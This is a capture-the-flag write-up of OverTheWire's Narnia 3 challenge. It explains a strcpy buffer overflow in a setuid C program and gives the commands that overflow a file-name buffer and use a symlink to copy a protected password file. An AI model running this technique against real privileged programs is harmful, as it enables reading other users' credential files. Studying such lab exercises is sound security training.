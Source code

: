 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 3 -> 4"
subtitle:   "Write-Up"
date:       2017-03-05 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Overthewire
---
```


<h1>Introduction</h1>

<p>Let's go back to another reverse engineering challenge from OverTheWire. Today we'll be dealing with a little different type of buffer overflow.  </p>

<h1>Challenge</h1>

<p>This time, we can start by firstly running the program. </p>

{% highlight text %}
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
{% endhighlight %}

<p>But what can we see in the source code? </p>

{% highlight c %}
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
{% endhighlight %}

<p>This code may look complicated at first. But, after taking a closer look, we can see a potential buffer overflow vulnerability in <b>ifile</b> buffer, which is 32 bytes in size. </p>

<p>Because <b>strcpy()</b> does not perform any checks of the length of the input, if I give a file name longer than 32 bytes in length, I would be able to overwrite the <b>ofile</b> from <b>/dev/null</b> to another file. </p>

<p>It's known bug in the strcpy man pages: </p>

<p><i>If the destination string of a strcpy() is not large enough, then  anything  might  happen.   Overflowing  fixed-length  string  buffers is a favorite cracker technique for taking complete control of the  machine. Any  time  a  program  reads  or copies data into a buffer, the program first needs to check that there's enough space.  This may  be  unnecessary  if you can show that overflow is impossible, but be careful: programs can get changed over time, in ways that may make  the  impossible possible.</i></p>

<p>Firstly, I'm going to create a file in <b>/tmp</b> directory, where possibly, the password for the next level will end up.  </p>

{% highlight text %}
narnia3@melinda:~$ cd /tmp
narnia3@melinda:/tmp$ touch w3ndige
{% endhighlight %}

<p>Then, I'm going to use Python and calculate how long the directory should be, together with <b>/tmp/</b> beggining. We can also generate letters for our directory name. </p>

{% highlight python %}
>>> 32 - len("/tmp/")
27
>>> print("/tmp/" + "A"*27)
/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA
{% endhighlight %}

<p>Now, let's move on and create a directory. But because its name will only fulfill the buffer, we have to add another one, which will overwrite the buffer. </p>

{% highlight text %}
narnia3@melinda:/tmp$ mkdir AAAAAAAAAAAAAAAAAAAAAAAAAAW     
narnia3@melinda:/tmp$ cd AAAAAAAAAAAAAAAAAAAAAAAAAAW
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ mkdir tmp
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ cd tmp
{% endhighlight %}

<p>Now we can create a link using <b>ln</b> command on w3ndige file, to the password file. This means that when we cat the created file, it will actually cat the content of the password file “/etc/narnia_pass/narnia4”. We can also see, if it works, using <b>ls</b> command.  </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ln -s /etc/narnia_pass/narnia4 ./w3ndige
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ls -lh
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Feb 28 20:18 w3ndige -> /etc/narnia_pass/narnia4

{% endhighlight %}

<p>Now we have to pass this directory, as an argument, to the binary. Let's pray it works. </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ /narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige to a safer place... (/tmp/w3ndige)
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ cat /tmp/w3ndige
**********
{% endhighlight %}

<p>And it worked, now we have the password! </p>

<h1>Conclusion</h1>
<p>Once gain thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm definitely looking forward to new challenges from <b>Narnia</b>, as I'm getting more and more interested in reverse engineering. </p>

<p>~ Stay safe!</p>
